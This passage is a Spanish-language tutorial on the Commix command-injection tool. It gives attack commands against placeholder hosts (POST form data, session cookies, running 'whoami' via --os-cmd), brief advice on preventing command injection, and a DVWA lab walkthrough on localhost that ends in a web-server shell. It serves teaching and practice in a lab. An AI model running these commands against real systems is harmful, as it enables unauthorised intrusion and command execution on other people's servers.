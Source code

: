#### 🧪 Ejemplo 2: Inyección en formulario POST

Si estás atacando un formulario con `user` y `pass`, puedes usar:

```bash
python3 commix.py --url "http://target.com/login.php" --data "user=admin&pass=test"
```

Si `user` o `pass` es vulnerable, Commix lo detectará.

---

#### 🧪 Ejemplo 3: Uso con cookies

```bash
python3 commix.py -u "http://target.com/panel.php?id=1" --cookie="PHPSESSID=abcd1234"
```

---

#### 🧪 Ejemplo 4: Ejecutar un comando directamente

```bash
python3 commix.py -u "http://target.com/item.php?id=5" --os-cmd whoami
```

---

### 🛡️ ¿Cómo evitar estas vulnerabilidades?

- Nunca ejecutar comandos con entradas del usuario.
- Usar funciones seguras (`subprocess.run()` con `shell=False` en Python).
- Validar, filtrar y sanitizar todos los inputs del usuario.
- Aplicar políticas de mínimo privilegio al servidor web.

---

### 🧩 Ejemplo completo final: DVWA

1. Instala DVWA (Damn Vulnerable Web Application) con Docker:

```bash
git clone https://github.com/digininja/DVWA
cd DVWA
sudo docker build -t dvwa .
sudo docker run -it -p 80:80 dvwa
```

2. Accede a: `http://localhost/setup.php`, configura y crea la DB.

3. En el panel, ve a “Command Injection”.

4. Prueba con Commix:

```bash
python3 commix.py -u "http://localhost/vulnerabilities/exec/?ip=127.0.0.1&Submit=Submit"
```

5. Si todo va bien, tendrás una shell del servidor web.

---